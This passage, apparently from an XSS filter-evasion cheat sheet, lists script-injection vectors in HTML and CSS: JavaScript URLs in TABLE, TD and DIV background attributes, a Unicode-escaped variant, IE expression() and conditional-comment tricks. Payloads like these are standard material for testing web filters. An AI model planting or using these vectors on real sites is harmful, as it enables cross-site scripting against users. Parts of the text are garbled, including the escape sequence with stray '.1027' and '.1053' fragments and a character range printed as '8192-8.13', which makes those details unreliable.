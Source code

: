 ```html
<TABLE BACKGROUND="javascript:alert('XSS')">
```

#### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```html
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

### DIV

#### DIV Background-image

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Background-image with Unicode XSS Exploit

This has been modified slightly to obfuscate the URL parameter:

```html
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

(Original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail)

#### DIV Background-image Plus Extra Characters

RSnake built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Expression

A variant of this attack was effective against a real-world XSS filter by using a newline between the colon and `expression`:

```html
<DIV STYLE="width: expression(alert('XSS'));">
```

### Downlevel-Hidden Block

Only works on the IE rendering engine - Trident. Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our XSS vector to exist. Or the system might try to add comment tags around something in a vain attempt to render it harmless. As we can see, that probably wouldn't do the job:

```js
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```
